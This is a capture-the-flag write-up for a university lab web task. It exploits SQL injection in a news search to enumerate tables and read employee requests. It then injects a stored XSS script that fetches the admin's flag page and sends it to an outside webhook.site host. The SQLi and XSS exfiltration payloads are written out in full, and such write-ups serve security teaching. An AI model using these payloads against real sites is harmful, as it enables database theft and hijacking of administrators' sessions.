

> Corporate - http://corporate.tasks.prak.seclab.cs.msu.ru/

### Hm...  
- Is there any news  
- Somehow it is necessary to look for something  
- Query string?

Let's get in there,`'` what's going to happen? 
``` SQL
ERROR:  unterminated quoted string at or near "'ORDER BY time DESC"
LINE 1: ...tle, full_text FROM news WHERE full_text LIKE '%'%'ORDER BY ...
                                                             ^
```
Interesting, this is SQL inj. ?)  

Sequentially try `ORDER BY 1--`, `ORDER BY 2--`, `ORDER BY 3--`. By
`ORDER BY 3` error => 2 columns

### We get a list of tables
``` SQL
nosuchnews' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema='public' --
```
(`nosuchnews` in order for everything to be displayed without content)

    corporate_employee_requests
        None
    news
        None

### Table columns `corporate_employee_requests`:
``` SQL
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='corporate_employee_requests' --`
Получаем: `id, employee_name`, `request_text`, `is_checked`, `time_added`, `time_checked`.
```
and lets
``` SQL
' UNION SELECT NULL, request_text, NULL FROM corporate_employee_requests --
```
We see the texts of the employees requests

The main page says: **"We have even made a corporate portal for them and
our admin monitors staff requests on it 24/7».** So the admin looks at and
opens (?) applications from employees?))))
If so, then you should try to stuff something into request_text

We will write on JS 
``` javascript
fetch('/admin/flag').then(r=>r.text()).then(d=>fetch('https://webhook.site/b58ae2d1-50b1-44e1-b88c-9acd2ad9bbdc?flag='+encodeURIComponent(d)))
```

(SQL I)
``` SQL
'; INSERT INTO corporate_employee_requests (employee_name,
request_text, is_checked) VALUES ('hacker', '<script>fetch("/admin/flag").then(r=>r.text()).then(d=>fetch("https://webhook.site/384ac3d9-2dd6-4b07-9e86-40d0a8bdbf5e?flag="+encodeURIComponent(d)))</script>', false); --
```

You can make sure that the record has been added.:
``` SQL
' UNION SELECT NULL, request_text, NULL FROM corporate_employee_requests WHERE employee_name='hacker' -- -
```

A flag has arrived on the webhook 🎉
